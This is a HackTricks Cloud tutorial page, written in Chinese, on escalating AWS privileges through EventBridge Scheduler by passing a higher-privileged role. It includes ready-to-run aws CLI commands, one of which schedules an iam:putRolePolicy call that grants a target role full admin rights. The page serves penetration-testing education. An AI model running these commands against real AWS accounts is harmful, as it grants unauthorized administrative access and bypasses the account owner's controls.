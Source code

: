 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler 可以通过调度对各种 AWS 服务的调用来进行权限提升。通过利用其按计划调用服务的能力，具有足够权限的用户可以提升权限。以下是 EventBridge Scheduler 可以使用模板目标触发的一些关键操作：

* Lambda: lambda:InvokeFunction - 按计划调用 Lambda 函数。
* CodeBuild: codebuild:StartBuild - 启动 AWS CodeBuild 项目。
* CodePipeline: codepipeline:StartPipelineExecution - 触发 AWS CodePipeline 执行。
* ECS: ecs:RunTask - 运行 ECS 任务。
* EventBridge: events:PutEvents - 将事件放入 EventBridge。
* Inspector: inspector:StartAssessmentRun - 启动 Amazon Inspector 评估。
* Kinesis: kinesis:PutRecord - 将记录放入 Kinesis 流。
* Firehose: firehose:PutRecord - 将记录放入 Firehose 交付流。
* SageMaker: sagemaker:StartPipelineExecution - 启动 SageMaker 管道执行。
* SNS: sns:Publish - 向 SNS 主题发布消息。
* SQS: sqs:SendMessage - 向 SQS 队列发送消息。
* Step Functions: states:StartExecution - 启动 AWS Step Functions 的执行。

这些只是 EventBridge Scheduler 可以执行的一些模板操作。然而，通过使用通用目标，可以调用许多其他 AWS 服务的操作。通用目标允许进行超出模板列表的更广泛的 API 操作。

有关 EventBridge Scheduler 的更多信息，请参见：

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

具有 `sts:AssumeRole`、`iam:PassRole` 和 `scheduler:CreateSchedule 或 scheduler:UpdateSchedule` 权限的用户可以通过利用 EventBridge Scheduler 调用使用更高权限角色的服务来提升权限。

拥有这些权限，攻击者可以假设一个具有更高权限的角色，并在创建或更新计划时将该角色传递给 EventBridge Scheduler。该计划可以配置为执行之前列出的任何操作，例如调用 Lambda 函数、启动 ECS 任务、触发 CodePipeline 执行或 EventBridge Scheduler 支持的 270 个 AWS 服务的任何操作。通过调度这些操作，攻击者可以滥用更高的权限在 AWS 服务中执行未经授权的操作。 \\

例如，他们可以配置计划以调用一个 Lambda 函数，这是一个模板操作：
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
除了模板化的服务操作，您可以在 EventBridge Scheduler 中使用通用目标来调用许多 AWS 服务的广泛 API 操作。通用目标提供了灵活性，可以调用几乎任何 API。一个例子是使用通用目标添加 "AdminAccessPolicy"，使用具有 "putRolePolicy" 策略的角色：
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## 参考文献

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
